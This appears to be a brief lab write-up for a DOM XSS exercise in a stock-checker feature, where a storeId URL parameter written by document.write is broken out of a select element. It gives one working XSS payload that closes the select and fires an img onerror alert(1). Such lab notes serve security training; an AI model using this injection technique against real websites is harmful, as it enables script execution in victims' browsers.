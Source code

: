 # Lab: DOM XSS in document.write sink using source location.search inside a select element

vuln: DOM XSS in stock checker functionality.
Task: Break down select element and call alert() function.
Analysis:
    &storeId=<option>1</select><img%20src=1%20onerror="alert(1)"></option>